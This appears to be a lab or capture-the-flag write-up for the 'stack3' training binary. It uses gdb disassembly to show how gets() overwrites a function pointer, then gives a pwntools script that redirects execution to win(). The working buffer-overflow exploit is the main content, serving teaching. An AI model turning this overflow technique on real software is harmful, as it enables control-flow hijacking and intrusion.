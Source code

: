 # stack3
## Tools used
- gdb (gef)
## Recon
Running the binary, we're able to provide input, but doing so doesn't give us any feedback. Firing up gdb, we can see the binary's function info:
```shell
File stack3/stack3.c:
11:	int main(int, char **);
6:	void win(void);
```
Looks like we have more than one function this time, keeping us on our toes! Let's take a look at the disassembly for both of these functions

## Disassembly
```shell
Dump of assembler code for function main:
   0x08048438 <+0>:	push   ebp
   0x08048439 <+1>:	mov    ebp,esp
   0x0804843b <+3>:	and    esp,0xfffffff0
   0x0804843e <+6>:	sub    esp,0x60
=> 0x08048441 <+9>:	mov    DWORD PTR [esp+0x5c],0x0
   0x08048449 <+17>:	lea    eax,[esp+0x1c]
   0x0804844d <+21>:	mov    DWORD PTR [esp],eax
   0x08048450 <+24>:	call   0x8048330 <gets@plt>
   0x08048455 <+29>:	cmp    DWORD PTR [esp+0x5c],0x0
   0x0804845a <+34>:	je     0x8048477 <main+63>
   0x0804845c <+36>:	mov    eax,0x8048560
   0x08048461 <+41>:	mov    edx,DWORD PTR [esp+0x5c]
   0x08048465 <+45>:	mov    DWORD PTR [esp+0x4],edx
   0x08048469 <+49>:	mov    DWORD PTR [esp],eax
   0x0804846c <+52>:	call   0x8048350 <printf@plt>
   0x08048471 <+57>:	mov    eax,DWORD PTR [esp+0x5c]
   0x08048475 <+61>:	call   eax
   0x08048477 <+63>:	leave
   0x08048478 <+64>:	ret
End of assembler dump.
```
- looks like our standard input is located at [esp+0x1c] since its address is loaded into eax before the gets call
- The result of the gets call is compared to the value at [esp+0x5c], so that's probably the address we need to spill into with a stack overflow
- Before the main function ends, the value of [esp+0x5c] is loaded into eax, and a system call is performed on said eax value

Alright, starting with our input of [esp+0x1c], we're going to need to alter the variable at [esp+0x5c] (0x40 or 64 offset) which will later have a system call performed on it. This means the value of [esp+0x5c] will need to be the memory address of a function that we want to have called. Given that there's only one other interesting function in this binary (win), we'll probably want to call said function

```shell
Dump of assembler code for function win:
   0x08048424 <+0>:	push   ebp
   0x08048425 <+1>:	mov    ebp,esp
   0x08048427 <+3>:	sub    esp,0x18
   0x0804842a <+6>:	mov    DWORD PTR [esp],0x8048540
   0x08048431 <+13>:	call   0x8048360 <puts@plt>
   0x08048436 <+18>:	leave
   0x08048437 <+19>:	ret
End of assembler dump.
```
Looks like the memory address of the win function is at 0x08048424. Converting this to ascii will not be pretty, so we're going to have to work some command line magic to feed this address into the binary.

To summarize:
- overflow the stack from [esp+0x1c] to [esp+0x5c] (64 +4 characters)
- [esp+0x5c] will need to have the value 0x08048424, pointing to the win function when the syscall is performed
- The binary is little endian, so when creating our input string, the 0x08048424 will need to be reversed

## Method
The most straightforward way to solve this would be to pipe our input string from python into the binary like so:
```shell
$ python3 -c "print('A'*64 + '\x24\x84\x04\x08') | ./stack3
calling function pointer, jumping to 0x0484c224
Segmentation fault
```
Well that's not what we wanted. What's going on with our input? How did 0x08048424 become 0x0484c224? The problem here is python3's interpretation of our hex values. Somewhere along the road, when python3 prints to stdout, the utf-8 encoding screws with the very specific values we wanted, and feeds trash into the binary. We could try to fix this by doing:
```shell
$ python3 -c "print(b'A'*64 + b'\x24\x84\x04\x08') | ./stack3
calling function pointer, jumping to 0x5c246161
Segmentation fault
```
but we get an even crazier address, probably because python prints byte strings prepended with a b, like b"{our garbage}". What's a girl to do? One solution that isn't too much more work is to use the popular python ctf library pwntools like so:
```python3
from pwn import process
p = process("./stack3")
p.sendline(b"A"*64 + b"\x24\x84\x04\x08")
p.interactive()
```

and from the interactive shell, we can see:
```shell
calling function pointer, jumping to 0x08048424
code flow successfully changed
```
